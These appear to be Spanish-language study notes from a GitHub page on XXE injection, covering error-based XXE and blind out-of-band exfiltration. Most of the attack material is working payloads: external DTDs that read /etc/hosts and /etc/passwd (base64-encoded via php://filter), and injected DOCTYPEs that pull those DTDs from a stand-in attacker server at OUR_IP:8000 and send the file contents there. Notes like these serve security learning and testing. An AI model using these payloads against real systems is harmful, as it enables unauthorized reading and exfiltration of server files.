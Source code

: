 ### Error Based XXE

Si en la respuesta del servidor no nos enseñan nuestro input por ningun lado podemos tratar de forzar errores para ver si nos da algo de info, esto se puede lograr ya sea rompiendo alguna tag  `<roo>` o referenciando a una entidad que no exite:
<img width="1082" height="316" alt="image" src="https://github.com/user-attachments/assets/4aef1fa6-ab9b-4410-83a2-f6ba471c95df" />


ahora usaremos eso a nuestro favor para exfiltrar mas cosas

1. Hosteamos nuestro DTD
```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```
en este caso lo que hacemos es crear %file que si existe y %error que no existe para que luego al unirlos como `Advanced Exfiltration with CDATA` nos salte el error + el archivo /etc/hosts

2.  Llamamos a nuestro DTD externo en la webv
```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

<img width="1080" height="274" alt="image" src="https://github.com/user-attachments/assets/48d3da11-4aae-4189-a1d3-321339676925" />



## Blind Data Exfiltration
Pa cuando no tenemos ni errores
### Out-of-band Data Exfiltration

esto lo haremos haciendo que el XXE lea el archivo y que lo pase a nuestro servidor

1. creamos un archivo (xxe.dtd) que tenga : 

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

2. ponemos esto en burp 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```
